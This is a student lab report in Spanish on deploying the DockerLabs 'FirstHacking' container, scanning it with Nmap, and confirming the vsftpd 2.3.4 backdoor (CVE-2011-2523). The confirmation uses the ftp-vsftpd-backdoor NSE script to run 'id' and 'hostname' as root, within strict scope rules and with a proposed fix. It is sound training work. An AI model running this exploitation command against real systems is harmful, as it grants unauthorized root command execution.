







# Informe de Práctica 01 · FirstHacking
**Despliegue, comprobación y documentación de un laboratorio vulnerable**

---

## 1. Identificación y objetivo
- **Autor:** Manuel García Rey
- **Máquina / Laboratorio:** FirstHacking (procedente de DockerLabs)
- **Fecha:** 16 de octubre de 2026 (Preparación inicial del entorno el 15 de octubre)
- **Versión del documento:** v1.1 (Revisión tras correcciones)
- **Objetivo:** Desplegar el laboratorio vulnerable *FirstHacking* en un entorno controlado con Docker Engine dentro de Debian (WSL 2), identificar los servicios expuestos mediante Nmap, investigar posibles vulnerabilidades asociadas a las versiones detectadas en fuentes contrastables, realizar una comprobación controlada para distinguir entre una sospecha y una vulnerabilidad demostrada mediante evidencias, analizar el impacto junto con su propuesta de corrección y empaquetar el laboratorio para su reproducción.

---

## 2. Entorno y alcance

### Entorno de trabajo
El laboratorio se ejecuta íntegramente dentro de la distribución Debian sobre WSL 2, utilizando el motor nativo de Docker sin depender de Docker Desktop:

| Componente | Detalle / Versión verificada | Función en la práctica |
| :--- | :--- | :--- |
| **Equipo anfitrión** | Windows (`Lenovoans`) con WSL 2 | Acceso al entorno de virtualización ligera Linux. |
| **Sistema operativo base** | Debian GNU/Linux 13 (`trixie`) - plataforma de Docker: `linux/amd64` | Ejecución nativa de Docker Engine, Nmap y almacenamiento de evidencias. *(Datos de SO, WSL y PID 1 indicados a partir de la instalación local).* |
| **Gestor de servicios** | `systemd` (PID 1) | Inicio y supervisión del servicio `docker.service`. |
| **Motor de contenedores** | Docker Engine - Community `v29.9.1` (API `1.56`, contexto `default`) | Carga de la imagen TAR, gestión de la red interna y ejecución aislada del contenedor. |
| **Herramienta de análisis** | Nmap `v7.95` + NSE (`ftp-vsftpd-backdoor`) | Descubrimiento de puertos TCP, identificación de versiones y comprobación controlada. |

### Alcance y reglas de seguridad
- **Único objetivo autorizado:** Exclusivamente la dirección IP asignada al contenedor del laboratorio dentro de la red interna `practica01-red`, almacenada en la variable `$IP_OBJETIVO`. Queda estrictamente excluido cualquier otro equipo, host anfitrión, red local o servidor externo.
- **Condiciones de parada:** Las pruebas finalizan inmediatamente tras verificar la ejecución de los comandos de identificación autorizados (`id` y `hostname`). Se debe detener el análisis ante una IP vacía, una IP que no corresponda al contenedor autorizado o un servicio diferente del esperado; en esos casos se consulta al profesor. No se instalan herramientas en el contenedor, no se extraen datos ni se realiza movimiento lateral.

---

## 3. Procedimiento realizado
1. **Preparación y configuración:** Instalación de dependencias (Docker Engine nativo y Nmap) en Debian y configuración de directorios de trabajo.
2. **Despliegue del contenedor:** Extracción y carga del archivo TAR de la imagen, creación de una red aislada local e inicio del contenedor obteniendo su IP (`172.18.0.2`).
3. **Análisis de vulnerabilidades:** Escaneo de puertos y servicios con Nmap identificando FTP vsftpd 2.3.4, seguido de una investigación teórica de la vulnerabilidad asociada (CVE-2011-2523).
4. **Comprobación y validación:** Explotación controlada mediante script de Nmap para verificar la ejecución de código remoto.
5. **Cierre:** Etiquetado, empaquetado de la imagen para su entrega, detención de los contenedores y comprobación de su estado final.

---

## 4. Comprobaciones y resultados

### 4.1. Verificación del entorno y herramientas (Paso 1)
**Comandos ejecutados:**
```bash
sudo docker version
nmap --version
```

**Salida obtenida:**
```text
Client: Docker Engine - Community (Version: 29.9.1 / Context: default)
Server: Docker Engine - Community (Version: 29.9.1 / OS/Arch: linux/amd64)
Nmap version 7.95 ( [https://nmap.org](https://nmap.org) )
```

- **Evidencia asociada:** 

- **Qué muestra la evidencia:** Confirma que tanto el cliente como el servidor de Docker Engine responden localmente y Nmap está operativo.
- **Qué permite concluir:** El entorno de auditoría en Debian es autónomo y está listo.
- **Qué queda sin demostrar:** Todavía no se ha analizado ningún objetivo.

### 4.2. Obtención y carga de la imagen (Paso 2)
**Comandos ejecutados:**
```bash
sudo docker load -i origen/firsthacking.tar
sudo docker images
```

**Salida obtenida:**
```text
firsthacking:latest   0e5b50e33295        558MB         273MB
```

- **Evidencia asociada:** 

- **Qué muestra la evidencia:** El archivo `firsthacking.tar` se ha importado correctamente al motor de Docker local.
- **Qué permite concluir:** La imagen base está lista para instanciar contenedores.

### 4.3. Creación del contenedor e identificación de red (Paso 3)
**Comandos ejecutados:**
```bash
sudo docker run -dit --name practica01-firsthacking --network practica01-red firsthacking:latest
IP_OBJETIVO=$(sudo docker inspect -f '{{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}}' practica01-firsthacking)
echo "$IP_OBJETIVO"
```

**Salida obtenida:**
```text
CONTAINER ID   IMAGE                 STATUS                  NAMES
221f3287f8e7   firsthacking:latest   Up Less than a second   practica01-firsthacking
172.18.0.2
```

- **Evidencia asociada:** 

- **Qué muestra la evidencia:** Contenedor funcional en segundo plano con la IP interna asignada.
- **Qué permite concluir:** El objetivo está desplegado y accesible en la IP `172.18.0.2`.
- **Qué queda sin demostrar:** Aún no se han analizado los puertos ni servicios expuestos.

### 4.4. Identificación de servicios (Paso 4)
**Comandos ejecutados:**
```bash
test -n "$IP_OBJETIVO" && nmap -sV -p 21 -n -Pn -oN evidencias/nmap/02-servicio-ftp.txt "$IP_OBJETIVO"
```

**Salida obtenida:**
```text
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
```

- **Evidencia asociada:** 

*(Nota: El archivo `01-puertos.txt` recoge el análisis TCP completo del 16 de octubre a las 19:29 y localiza el puerto 21; después `02-servicio-ftp.txt` identifica vsftpd 2.3.4. La captura 04 muestra ambos).*
- **¿Qué puerto has encontrado abierto?** El puerto 21 (TCP).
- **¿Qué servicio parece atenderlo?** Un servicio de transferencia de archivos (FTP).
- **¿Qué programa y versión identifica Nmap?** El programa `vsftpd` en la versión `2.3.4`.
- **¿Qué información necesitas comprobar antes de afirmar que existe una vulnerabilidad?** Un puerto abierto solo indica que acepta conexiones. Necesito comprobar si esa versión tiene fallos documentados y realizar una prueba activa para confirmar su explotación.

### 4.5. Investigación y formulación de hipótesis (Paso 5)
- **Programa y versión:** vsftpd 2.3.4
- **Posible vulnerabilidad:** Puerta trasera (backdoor) maliciosa introducida en el código fuente.
- **Identificador CVE:** CVE-2011-2523
- **Condiciones:** Que la instalación provenga de la distribución comprometida original y el puerto 21 acepte conexiones.
- **Fuente:** National Vulnerability Database (NVD) / Rapid7.

**Hipótesis a comprobar:**
He observado el puerto 21 abierto con vsftpd 2.3.4. Según la fuente de Rapid7, podría existir una vulnerabilidad (CVE-2011-2523). Lo comprobaré mediante el script de Nmap `ftp-vsftpd-backdoor` solicitando la ejecución de un comando inocuo (`hostname`).

- **¿Qué has observado realmente y qué parte sigue siendo una sospecha?** He observado la coincidencia de la versión. Sigue siendo sospecha si este contenedor incluye la puerta trasera explotable.
- **¿Qué condición necesitas comprobar para confirmar el problema?** Verificar si al enviar la carga útil el servidor obedece y ejecuta comandos internos.

### 4.6. Comprobación controlada (Paso 6)
**Comandos ejecutados:**
```bash
test -n "$IP_OBJETIVO" && nmap -n -Pn -p 21 --script ftp-vsftpd-backdoor --script-args 'ftp-vsftpd-backdoor.cmd=hostname' -oN evidencias/nmap/03-validacion.txt "$IP_OBJETIVO"
sudo docker inspect -f '{{.Config.Hostname}}' practica01-firsthacking
```

**Salida obtenida:**
```text
|     Exploit results:
|       Shell command: id
|       Results: uid=0(root) gid=0(root) groups=0(root)
|       Shell command: hostname
|       Results: 221f3287f8e7
```

- **Evidencia asociada:** 

- **¿Qué resultado respalda que se han ejecutado comandos dentro del objetivo?** La sección `Exploit results`, que muestra la respuesta del servidor al inyectar código.
- **¿Qué identidad muestra la salida?** Muestra `uid=0(root)`, lo que indica permisos máximos.
- **¿Qué nombre de sistema devuelve y coincide con el consultado en Docker?** Devuelve `221f3287f8e7`, que es exactamente el mismo que arroja la consulta interna de Docker.
- **¿Qué puedes afirmar con esas evidencias y qué queda sin demostrar?** Puedo afirmar que el servicio es vulnerable. Ejecución remota de `id` y `hostname` con identidad `root` dentro del contenedor `practica01-firsthacking`. No se ha demostrado acceso al anfitrión, extracción de datos, persistencia ni movimiento a otros sistemas.

### 4.7. Hallazgo y corrección (Paso 7)

| Campo | Contenido |
| :--- | :--- |
| **Activo afectado** | Contenedor `practica01-firsthacking` (IP `172.18.0.2`), servicio FTP en el puerto `21/tcp`. |
| **Problema y causa** | Puerta trasera (CVE-2011-2523) al desplegar código comprometido. |
| **Evidencia** | Salida del script Nmap registrada en `03-validacion.txt`. |
| **Impacto demostrado** | Ejecución remota de `id` y `hostname` con identidad `root` dentro del contenedor `practica01-firsthacking`. No se ha demostrado acceso al anfitrión, extracción de datos, persistencia ni movimiento a otros sistemas. |
| **Corrección propuesta** | Sustituir la versión comprometida de vsftpd por una actualizada desde un repositorio oficial, o migrar a SFTP (retirando el vsftpd comprometido, no solo añadiendo el nuevo servicio). |
| **Verificación posterior** | Corrección propuesta, no aplicada ni verificada en esta práctica. Si se mantiene FTP, comprobaría que se ha sustituido el componente comprometido, que el servicio legítimo funciona y que la prueba autorizada ya no permite ejecutar comandos. Si se retira FTP o se sustituye por otro servicio, comprobaría su retirada y el funcionamiento de la alternativa. Un fallo de conexión aislado no demuestra una corrección. |

- **¿Qué parte del impacto has demostrado y qué parte sería una posibilidad todavía no comprobada?** Demostrada la ejecución como `root`. Es una posibilidad no comprobada pivotar a otros sistemas o acceder al anfitrión.
- **¿Cómo eliminarías la causa del problema?** Reemplazando el software directamente comprometido o sustituyéndolo por otro servicio seguro.
- **¿Cómo verificarías la corrección sin confundir un fallo de conexión con una solución efectiva?** Asegurando que el puerto o la nueva alternativa funcionan legítimamente pero rechazan la carga útil del ataque.

### 4.8. Comprobación de la entrega (Paso 8)
**Comandos ejecutados:**
```bash
test -n "$IP_OBJETIVO" && nmap -sV -p 21 -n -Pn -oN evidencias/nmap/04-reproduccion.txt "$IP_OBJETIVO"
```

**Salida obtenida:**
```text
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
```

- **Evidencia asociada:** 

- **¿Qué has comprobado al arrancar el contenedor nuevo y qué comprobaciones siguen pendientes?** He comprobado la carga del TAR y el arranque de un contenedor nuevo en mi equipo, donde Nmap vuelve a identificar FTP con vsftpd 2.3.4. Esta es la reproducción local prevista. No he repetido la explotación sobre el contenedor nuevo ni probado el TAR en otro ordenador; esas pruebas no son necesarias para esta entrega.

### 4.9. Cierre del laboratorio (Paso 9)
**Comandos ejecutados:**
```bash
sudo docker stop practica01-comprobacion
sudo docker ps -a
```

- **Evidencia asociada:** 

- **Qué muestra la evidencia:** La detención de los contenedores y la comprobación de su estado final.

---

## 5. Problemas encontrados y soluciones
Durante el desarrollo se registraron las siguientes incidencias:
1. **Ausencia inicial de Docker Engine y Nmap en Debian:**
   * **Solución:** Se configuró el repositorio de Docker, instalando `docker-ce` y `nmap` mediante APT, logrando independizar el entorno de Docker Desktop.
2. **Archivo `firsthacking.tar` oculto:**
   * **Solución:** Se localizó el `.zip` original en la carpeta Descargas de Windows, transfiriéndolo con `cp` a la carpeta `origen` de Linux y descomprimiéndolo con `unzip`. *(El script original `origen/auto_deploy.sh` se conserva como archivo de procedencia o referencia, pero las pruebas documentadas siguen el despliegue manual)*.

---

## 6. Contenido de la entrega e instrucciones de reproducción

**Inventario de la entrega:**
El repositorio incluye el informe, los comandos y las evidencias. La imagen `imagen/laboratorio.tar` y las descargas originales se conservan localmente y se excluyen de Git. Las instrucciones de carga requieren disponer de ese TAR local.

**Instrucciones de reproducción del laboratorio:**
*Estas órdenes se ejecutan desde la carpeta que contiene el README y, localmente, `imagen/`. El recorrido asume la disponibilidad de la imagen empaquetada. Si la red o el contenedor ya existen, hay que identificar esos recursos antes de continuar, sin borrarlos automáticamente. Compruebe que `practica01-firsthacking` está detenido antes de arrancar el contenedor de comprobación.*

1. **Cargar la imagen empaquetada:**
   ```bash
   sudo docker load -i imagen/laboratorio.tar
   ```
2. **Crear la red interna:**
   ```bash
   sudo docker network create --internal practica01-red
   ```
3. **Arrancar el contenedor de comprobación:**
   ```bash
   sudo docker run -dit --name practica01-comprobacion --network practica01-red hacketilabs:practica01-firsthacking
   ```
4. **Consultar su IP y comprobar el servicio:**
   ```bash
   IP_OBJETIVO=$(sudo docker inspect -f '{{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}}' practica01-comprobacion)
   echo "$IP_OBJETIVO"
   test -n "$IP_OBJETIVO" && \
   nmap -sV -p 21 -n -Pn "$IP_OBJETIVO"
   ```
5. **Detención final y comprobación de estado:**
   ```bash
   sudo docker stop practica01-comprobacion
   sudo docker ps -a
   ```
6. **Eliminación (solo cuando se indique expresamente):**
   ```bash
   sudo docker rm practica01-comprobacion
   sudo docker network rm practica01-red
   ```

---

## 7. Conclusiones y fuentes

**Conclusiones:**
Se ha desplegado con éxito el laboratorio utilizando Docker nativo. Mediante Nmap se identificó la vulnerabilidad CVE-2011-2523 en vsftpd 2.3.4. La comprobación controlada evidenció que el contenedor era vulnerable, permitiendo la ejecución remota de comandos con privilegios. Se ha documentado la contramedida necesaria y se ha empaquetado el laboratorio documentando la reproducción local en mi equipo.

**Fuentes:**
- **DockerLabs**: Máquina vulnerable FirstHacking (https://dockerlabs.es/).
- **NVD / MITRE**: Detalles de la vulnerabilidad CVE-2011-2523 (https://nvd.nist.gov/vuln/detail/CVE-2011-2523).
- **Rapid7**: Documentación técnica de explotación de vsftpd 2.3.4 (https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor/).
- **Nmap**: Ayuda local de Nmap consultada el 15 de octubre.